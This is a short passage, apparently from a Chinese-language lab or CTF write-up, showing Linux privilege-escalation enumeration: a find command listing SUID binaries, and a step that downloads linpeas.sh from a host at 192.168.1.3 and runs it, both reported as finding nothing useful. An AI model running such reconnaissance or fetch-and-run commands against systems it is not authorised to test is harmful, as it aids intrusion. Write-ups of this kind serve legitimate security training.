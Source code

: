 

### suid位查找

```
find / -perm -4000 2>/dev/null
```

![image-20250324185831185](assets/image-20250324185831185.png)

无关键信息





### 上传linpeas.sh

```
wget 192.168.1.3/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image-20250324185925105](assets/image-20250324185925105.png)

无关键内容

